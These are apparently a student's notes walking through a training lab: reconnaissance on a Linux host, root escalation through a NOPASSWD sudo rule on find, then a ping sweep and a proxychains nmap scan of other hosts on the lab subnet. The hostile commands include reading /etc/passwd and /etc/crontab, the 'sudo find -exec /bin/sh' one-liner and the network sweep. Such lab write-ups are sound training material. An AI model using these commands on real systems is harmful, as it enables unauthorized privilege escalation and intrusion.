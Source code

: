 ### 3. RoundSensor  --02 ###

#### Attempt Exploitation || Gain Initial Access and Perform Reconnaissance  ####

Step 00. `cat /etc/passwd` -> nothing on here it's only root and aaron 

Step 0a. `cat /etc/hosts` -> Nothing on here

Step 0b. `Aaron@RoundSensor:/$ cat /etc/crontab `?????

Step 0c. What else again????? TODO? And everything we did on linux day pretty much... syslog and rsyslog conf files 

Step 0d. `netstat -tunap` # check for local listening ports 



Step 1. Check what Aaron can run e.g. `sudo -l` which gives the following 

    $ sudo -l
    Matching Defaults entries for Aaron on RoundSensor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User Aaron may run the following commands on RoundSensor:
    (ALL) NOPASSWD: /usr/bin/find

Step 0e. Find the SIDor the SGID file that looks out of place comrade@lin1:~$ `find / -type f -perm /6000 -ls 2>/dev/null`

Step 2. Go to GTFO bins and find the vulnerability for find. -> https://gtfobins.github.io/

Step 3. The following command run and changed the user to root `sudo find . -exec /bin/sh \; -quit`

Step 4. You know have root privileges -> Explore everything in the root directory

Step 0f. `cd root`, try to cut and see everything in root `ls` and `ls -la .ssh/authorized_keys` and `cat ab.sh` -> what port is listening on this ssh??? and `ps -elf`and `cat run` and `cat /lib/libhandle.10`

#### Find Additional Targets ####

Step 5. Run `for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done` to see which ips are open and this gives 

        64 bytes from 192.168.28.172: icmp_seq=1 ttl=64 time=0.037 ms
        64 bytes from 192.168.28.179: icmp_seq=1 ttl=128 time=1.17 ms
        64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.353 ms
        64 bytes from 192.168.28.222: icmp_seq=1 ttl=64 time=5.92 ms

        Notice the ttl, ttl for windows is 128. 

Step 6. Check 192.168.28.181. student@lin-ops:~$ `proxychains nmap -Pn 192.168.28.179`

        Nmap scan report for 192.168.28.179
        Host is up (0.00056s latency).
        Not shown: 994 closed ports
        PORT     STATE SERVICE
        22/tcp   open  ssh
        135/tcp  open  msrpc
        139/tcp  open  netbios-ssn
        445/tcp  open  microsoft-ds
        3389/tcp open  ms-wbt-server
        9999/tcp open  abyss
